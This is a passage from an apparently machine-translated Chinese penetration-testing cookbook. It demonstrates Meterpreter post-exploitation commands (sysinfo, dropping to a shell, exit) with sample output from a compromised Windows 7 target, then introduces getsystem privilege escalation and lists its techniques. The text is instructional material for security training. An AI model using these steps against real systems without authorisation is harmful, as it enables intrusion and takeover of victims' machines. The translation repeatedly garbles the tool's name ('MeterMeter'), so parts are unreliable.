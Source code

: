 *   `sysinfo:`这是一个方便的命令，用于快速验证系统信息，如操作系统和架构。

    ```
    meterpreter > sysinfo
    Computer : DARKLORD-PC
    OS : Windows 7 (Build 7264).
    Architecture : x86
    System Language : en_US
    Meterpreter : x86/win32 
    ```

*   `shell:`此命令将我们带入 shell 提示符。我们已经在以前的一些食谱中看到了这个 meterpeter 命令的使用。

    ```
    meterpreter > shell
    Process 4208 created.
    Channel 1 created.
    Microsoft Windows [Version 6.1.7264]
    Copyright (c) 2009 Microsoft Corporation. All rights reserved. 
    ```

*   `exit:`此命令用于终止 MeterMeter 会话。此命令还可用于终止 shell 会话并返回 MeterMeter。

这些是一些有用的系统命令，可用于探测受害目标以获取更多信息。还有许多其他命令，我将留给您尝试和探索。您可能已经注意到，使用 MeterMeter 命令和探索目标是多么容易，如果没有它，这将是一项困难的任务。在我们的下一个配方中，我们将重点介绍一些高级 MeterMeter 命令。

## 它是如何工作的。。。

MeterMeter 与任何命令解释器一样工作。它旨在通过命令理解和响应各种参数调用。它驻留在被利用/被破坏的进程的上下文中，并与渗透测试仪的机器创建客户机/服务器通信系统。

![How it works...](img/7423_05_02.jpg)

上图概括地说明了MeterMeter的功能。一旦建立了通信通道，我们就可以向 MeterMeter 服务器发送命令调用，将其响应返回到我们的机器。随着本章的继续，我们将更详细地了解 pen 测试机和受害目标之间的通信。

# 权限提升和进程迁移

在本食谱中，我们将重点介绍 MeterMeter 的两个非常有用的命令。第一个用于**权限提升**。此命令用于升级目标系统上的权限/权限。我们可能会以一个在系统上执行任务的权限较低的用户身份闯入。因此，我们可以将权限升级到系统管理员，以便在不中断的情况下执行任务。第二个命令用于**进程迁移**。此命令用于从一个进程迁移到另一个进程，而无需在磁盘上写入任何内容。

## 怎么做。。。

为了提升我们的特权，MeterMeter 向我们提供了 `getsystem`命令。此命令自动开始查找各种可能的技术，通过这些技术，用户权限可以升级到更高级别。让我们分析一下 `getsystem`命令使用的不同技术

```
meterpreter > getsystem -h
Usage: getsystem [options]
Attempt to elevate your privilege to that of local system.
OPTIONS:
-t <opt> The technique to use. (Default to '0').
0 : All techniques available
1 : Service - Named Pipe Impersonation (In Memory/Admin)
2 : Service - Named Pipe Impersonation (Dropper/Admin)
3 : Service - Token Duplication (In Memory/Admin)
4 : Exploit - KiTrap0D (In Memory/User) 
```

